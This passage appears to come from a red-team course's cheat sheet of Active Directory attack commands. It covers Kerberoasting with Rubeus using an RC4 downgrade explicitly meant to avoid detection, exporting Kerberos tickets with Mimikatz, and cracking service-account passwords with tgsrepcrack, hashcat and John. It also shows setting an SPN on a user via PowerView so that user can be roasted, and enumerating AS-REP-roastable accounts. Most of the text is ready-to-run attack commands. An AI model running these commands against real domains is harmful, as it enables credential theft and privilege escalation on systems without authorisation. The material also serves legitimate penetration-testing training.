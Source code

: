 #### Request TGS Avoid detection
- Based on encryption downgrade for Kerberos Etype (used by likes ATA - 0x17 stands for rc4-hmac).
- Look for kerberoastable accounts that only supports RC4_HMAC
```
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:<SERVICEACCOUNT> /simple /rc4opsec
```

#### Export ticket using Mimikatz
```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

#### Crack the ticket
- Crack the password for the serviceaccount
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

```
.\hashcat.exe -m 13100 -a 0 <HASH FILE> <WORDLIST>
```

```
.\John.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt hashes.txt
```

### Set SPN
- If we have sufficient permissions (GenericAll/GenericWrite). It is possible to set a SPN and then kerberoast!
#### Enumerate permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName
```

#### Set SPN for the user
- Must be unique accross the forest. 
- Format ```<STRING>/<STRING>```
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -Set @{serviceprincipalname=’<ops/whatever1>’}
```

#### Then Kerberoast user

## AS-REP Roasting
#### Enumerating accounts with kerberos preauth disabled
```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```
